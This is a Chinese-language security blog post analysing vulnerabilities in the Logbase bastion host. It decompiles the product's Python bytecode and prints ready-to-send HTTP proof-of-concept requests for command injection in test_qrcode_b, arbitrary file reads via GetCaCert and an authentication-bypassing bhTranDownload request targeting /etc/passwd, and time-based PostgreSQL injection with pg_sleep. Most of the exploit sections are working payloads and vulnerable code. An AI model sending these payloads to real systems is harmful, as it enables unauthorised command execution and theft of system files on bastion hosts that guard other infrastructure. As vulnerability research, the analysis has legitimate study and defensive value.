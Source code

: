 #  Logbase思迪福堡垒机漏洞分析   
 WK安全   2023-12-17 09:52  
  
赛  
博大作战中的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。  
利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。  
本文所提供的工具仅用于学习，禁止用于其他！  
！  
！  
  
  
**1**  
  
**前言**  
  
  
最近看到网上发布了这个堡垒机的rce  
```
https://mp.weixin.qq.com/s/tWRD9oYo5eNeyLcf_pv2ew
https://mp.weixin.qq.com/s/rmWBOQaE4aSxWI9VYBRpHg
...
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XgESLk8apdL9X07AbibyVgDW8fcGndSC6sfdqoHCR2Ram7w0Twj5dY6A/640?wx_fmt=png&from=appmsg&random=0.18119871894036566&random=0.8291540263732109&random=0.4214362794444373&random=0.46608159963020146 "")  
  
抱  
着水点公众号文章的想法，弄了份源码看了下，发现源码并不大，结构也不复杂，正好符合我们水文章的需求，开整！  
  
首先，该堡垒机程序是python编译成pyc文件运行的，我们先进行反编译  
```
// 安装
pip install uncompyle6

// 查看版本
uncompyle6 --version

// 使用，-o outfile必须先写，例如有一个pcat.pyc，想反编译输出文件为pcat.py
uncompyle6 -o pcat.py pcat.pyc
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85X1uCib0vnWdCVFReh4CicVEdqibgwF2lLCRAic1ozVTOkPajyZFewPL1HDw/640?wx_fmt=png&from=appmsg&random=0.16840961598006388&random=0.44772637866305454&random=0.45081367106919945&random=0.5532304483015746&random=0.5249568115760692&random=0.6269413795099075&random=0.9600018222865565&random=0.7095187209000307&random=0.3898473470374837&random=0.3297611296727587&random=0.9661842628988344&random=0.22268031554682333&random=0.9763858326085599&random=0.014747354446745797 "")  
  
通过一顿反编译我们就得到了源码，就可以开始正式审计了  
  
**2**  
  
**路由分析**  
  
  
我们直接来挖前台可以被利用的漏洞，路由的话，因为是python写的，其实还是比较明显的  
```
# \dev\shm\www\manage\bhost\login.py
@app.route("/lchk", methods=['GET', 'POST']) // 对应请求url为 http://xxxx/bhost/lchk
  ....

# 认证机制基本上是：
# 客户端输入账号密码->服务端匹配成功的情况->返回session，客户端拿着这个session再去请求其他的需要权限校验的接口
# 由于得到的代码不全并没有sessionchek的定义，就先不管这些
```  
  
‍  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85X2gaJFxsOH8elzloxkPd9sLMH8icggg9lUMY7jOBibezpC2HQ7oUkglOA/640?wx_fmt=png&from=appmsg&random=0.1530603351279951&random=0.15316727716257672&random=0.3472111928630346&random=0.9771331502742222&random=0.7342007637784642&random=0.5480094110089189&random=0.35300603321678103&random=0.3118692052867611&random=0.1963133716293115&random=0.7444366606977437&random=0.03920383384383874&random=0.19490757838168005 "")  
  
使用自己平时写的静态分析工具进行一波分析，输出可能存在漏洞的接口信息输出：logbase.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XOACVBn6BEyGxLpUnUAiadW5p7hPUDkBMpBIIAJHGEQx11v1OYdYWiaZA/640?wx_fmt=png&from=appmsg&random=0.007960717339163592&random=0.2873890265027246&random=0.6130279611939866&random=0.08916703450418995&random=0.48050561044593443&random=0.7484901577487142&random=0.8856947250595526&random=0.9555025022242676&random=0.06699178562929053&random=0.5304917098782802&random=0.7949902082203602&random=0.011410020657084408 "")  
  
**3**  
  
**test_qrcode_b命令执行漏洞**  
  

				  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XUYQRhlyiasQ56vt5Vr8kFEDJYK1nxIu3LXS0d2kSM7yzw8cyfpOia9VA/640?wx_fmt=png&from=appmsg&random=0.15031336552863928&random=0.6334609473073247&random=0.9734878846586883&random=0.8574337217978432&random=0.8488538238045906&random=0.4959180688770788&random=0.8084153008987276&random=0.11823942386100716 "")  
  
  
  
发现传参没过滤直接拼接从而造成了rce  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85Xlzj04rgRZt42AjdJnMQ88PVq1nLpSc20S5qWpbHsJx0IKlRK6vsdbQ/640?wx_fmt=png&from=appmsg&random=0.7745394237292382&random=0.4620930459291659&random=0.23834254152901124&random=0.07963564780970112&random=0.9831625464590432&random=0.540602856953661&random=0.6579588265736598&random=0.9194940290413989 "")  
  
```
数据包：
POST /bhost/test_qrcode_b HTTP/1.1
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip, deflate, br
Accept: gzip
Connection: close
Referer: 
Content-Type: application/x-www-form-urlencoded
Host: 
Content-Length: 23

z1=1&z2="|id;"&z3=bhost
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85Xia5P8aYRS1bugw6WH8UKzg85u6aVzgg2j6pg5zWQRBCmGC7JC1hsyBg/640?wx_fmt=png&from=appmsg&random=0.09763288162661699&random=0.4226243162133063&random=0.219865797313056&random=0.705332932737432&random=0.625723661304717&random=0.611593175682478&random=0.7912280168792127&random=0.945065619789013 "")  
  
  
**4**  
  
**GetCaCert接口任意文件读取**  
  

				  
  
 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85X4IRzR9doseTibwR6z2DiaQPFeQJNc6jjyZoQQ4icm9f4NBt1Fmib36ciaTQ/640?wx_fmt=png&from=appmsg&random=0.6120851667568667&random=0.04378784376734046&random=0.8049514810021352&random=0.5065766396888534&random=0.23060991521361407&random=0.13116327088537894&random=0.6889050802278673 "")  
  
```
# 发现传参没过滤直接拼接造成了任意文件读取
@app.route("/GetCaCert", methods=['GET', 'POST']) # 文件读取 参数a1
def GetCaCert():
  headers  = str(request.headers) ;
  debug(headers)
  if headers.find("a1") < 0:
    Name = request.args.get('a1')
  else:
    Name = headers.split('a1',0)[1].split()[1];
  
  try:
    if os.path.exists('/usr/etc/'+Name):
      fp = open('/usr/etc/'+Name,'r');
      # 返回读取的内容并base64
      a = base64.b64encode(fp.read());
      return a,200
    else:
      return '',400
  except pyodbc.Error,e:
    return '',400
```  
  
‍  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85Xq3U98QicAYYq2iapdT3D6GFXraVjxYv04w5aBl4APTDkBWKwSb7Dh9Vg/640?wx_fmt=png&from=appmsg&random=0.9506539124394073&random=0.9921458729112214&random=0.8029709714724205&random=0.3271683986553362&random=0.8309780895410175&random=0.014506925204482934&random=0.5806139507639756 "")  
  
  
返回base64的文件读取内容  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XkfqkoFpic8ZRGIzGjsUAvvl7icMfvEWKPTrfeHC1ftjzvnI8vUib2WX4A/640?wx_fmt=png&from=appmsg&random=0.009427360037876253&random=0.9717876976638191&random=0.004394311076287849&random=0.6560236763308225&random=0.5314726120511437&random=0.022926587603748994&random=0.927090977163624 "")  
  
  
**5**  
  
**bhTranDownload接口任意文件读取**  
  
```
1 根据阅读源码我们需要在请求头处构造poc

2 bhTranDownload接口其实是有判断逻辑，但因为判断逻辑有点毛病可以绕过，这里是有两个判断的
2.1 判断1：
def check_path(path):
  for one in list_path:
    if path.find(one) >=0:
      return True
  return False

list_path = ['/usr/storage/.system/upload','/usr/storage/.system/replay','/usr/storage/.system/software','/usr/storage/.system/update','/usr/storage/.system/config/backup','/usr/storage/.system/dwload','/usr/storage/.system/passwd','/usr/storage/.system/backup','/usr/storage/.system/transf','/usr/ssl/certs']
为
if check_path(Path) == False and Filename !='cf_tnsora': 
    return '-1',403;
    
为了绕过这个判断 我们需要把内容设置为list_path中的内容


2.2 判断2：
将/usr/storage/.system/software base64编码并且固定在此处就可以通过
if Path.find("/software") >=0 or Method =='GetSize' or Filename =='cf_tnsora':
  pass
else:
  sessioncheck
绕过下面图中的那个else:避免进入鉴权

3 基于上面的说法 我们选择/usr/storage/.system/software来进行base64绕过这些

则：
Filename:xxxxxxxxxxxxxxx../../../etc/passwd base64编码希望读取的漏洞路径
Path:L3Vzci9zdG9yYWdlLy5zeXN0ZW0vc29mdHdhcmU=  编码前的内容是/usr/storage/.system/software
最终实现任意文件读取
```  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XvW8m8cjMrOwaiaDHgfRvL5Dx275gzojgib7k1o1xRHqsK9U3utpHMMrA/640?wx_fmt=png&from=appmsg&random=0.08121205211502769&random=0.6747149408401723&random=0.604805640360758&random=0.13985306000025344&random=0.6866578653588389&random=0.6318382401740361 "")  
  
```
GET /bhost/bhTranDownload  HTTP/1.1
Host: xxxxxxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Filename:xxxxxxxxxxxxxxx../../../etc/passwd base64编码希望读取的漏洞路径
Session:111
Path:L3Vzci9zdG9yYWdlLy5zeXN0ZW0vc29mdHdhcmU= 编码前的内容是/usr/storage/.system/software
Offset:0
Content-Length: 2
Sesstimet:111
Referer: https://xxxxxxxxx/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85X0qyIcxtOZicmj6xHRaicLMk8tS9b09CJaafjZy9EqUECRBPxNDO8mic3A/640?wx_fmt=png&from=appmsg&random=0.5980063030069886&random=0.792706180035553&random=0.7490476979367706&random=0.2705308117477472&random=0.1920928485831228&random=0.2014329887774624 "")  
  
**6**  
  
**PostgreSQL 注入漏洞**  
  

				  
  
 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XHPbIhrDuiata0tl2Xaj6HkMrhiaWeoZBUzaib4cBP1zjuBR5vwliaQVxsQ/640?wx_fmt=png&from=appmsg&random=0.7496012270880368&random=0.9660548951257002&random=0.5525050070067268&random=0.9430231375400364&random=0.5213822234222605 "")  
  
  
发现传参没过滤直接拼接造成了注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85X3hGiaia15csgnvGgplicbOiaSRVvKeU5WpA8uCOxEIzUlveicPCQYO7rOicw/640?wx_fmt=png&from=appmsg&random=0.7209992174035327&random=0.0441212969697371&random=0.3582119436520448&random=0.7550736670562794&random=0.7483603998489745 "")  
```
POST /bhost/repeat_get_usb_status HTTP/1.1
Host: xxxxxxx
Cookie: bhost=xxxxxxxxxxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 20
Origin: https://xxxxxxxxxxx
Dnt: 1
Referer: https://xxxxxxxx/bhost/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

z1='||pg_sleep(2)||'
```  
  
‍  
每pg_sleep(1)是2000mills延迟，这洞版本有点老，找半天才复现成功  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XTicktE8iaoT9FpMY1e1o9rmibZqsnfHKOmp983KY4ibJUvG6tIOf0W2piag/640?wx_fmt=png&from=appmsg&random=0.21588578084438725&random=0.8141424862825308&random=0.790938986802997&random=0.5415936384825779&random=0.610915142361024 "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XXiaUlEHG3icP7KtibqLibGETwFY9f1ajH8YaWiaFOLZH3GnsvjhgsaHwJxg/640?wx_fmt=png&from=appmsg&random=0.28744682960944745&random=0.8645135194247149&random=0.5324847817420986&random=0.06479196040790258&random=0.3089443952313242 "")  
  
   
  
**7**  
  
**总结**  
  

				  
总的来说这堡垒机比较老还是不少洞的，但新版本均修复了上述这些，分享出来供需者学习，水一篇文章吧。安全路远，交流技术可添加：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/PEicib4sr4bLXibAdN6mvPqU4selKN0q85XBHNlyetyf9GEiapbbaH3Jwn6quu7KlNeYsc9f8QGnyia99QlL7Zgqarw/640?wx_fmt=jpeg&from=appmsg&random=0.5606427801488534&random=0.5803736256082925&random=0.6955808587991792&random=0.6161663899245626 "")  
  
  
  
